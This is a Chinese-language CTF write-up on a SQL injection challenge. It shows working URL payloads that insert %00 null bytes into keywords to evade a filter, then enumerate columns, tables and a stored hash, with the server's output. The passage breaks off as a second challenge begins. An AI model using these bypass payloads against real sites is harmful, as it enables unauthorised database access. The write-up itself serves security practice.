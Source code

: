 
试了大小写绕过发现不行，再试试简单编码...连试好几个结果都是在or的地方就被检测出来，最后用的是null的编码%00绕过的。

```
http://103.238.227.13:10087/?id=1 o%00rder by 1 回显正常
http://103.238.227.13:10087/?id=1 o%00rder by 2 回显正常
http://103.238.227.13:10087/?id=1 o%00rder by 3 无回显
说明列数为2
```


查询数据库名称

```
http://103.238.227.13:10087/?id=1 un%00ion se%00lect 1,database() --+
当前结果：
id      1
title   title
id      1
title   sql3
```


查询当前数据库表

```
http://103.238.227.13:10087/?id=1 un%00ion se%00lect 1,gr%00oup_concat(tab%00le_name) fr%00om info%00rmation_schema.tab%00les where tab%00le_schema=database() --+
当前结果：
id      1
title   title
id      1
title   hash,key,temp
```

本来只知道要把出现or的给分隔开，没想到ro也得给注释掉...(字符是怎样的检测顺序？疑问脸)
 
查询指定表的所有字段

```
http://103.238.227.13:10087/?id=1 un%00ion se%00lect 1,gr%00oup_concat(id,0x7e,hash) fr%00om .key  --+
当前结果：
id      1
title   title
id      1
title   1~c3d3c17b4ca7f791f85e#$1cc72af274af4adef
```

不应该写key吗？看完表哥的WP才知道要在key前面加个点，why??结果出来了嗯

### SQL_2

```
访问参数为：?id=x
查询当前数据库版本。如：5.0.1-linux-....
```


首先试了一下常规的查询
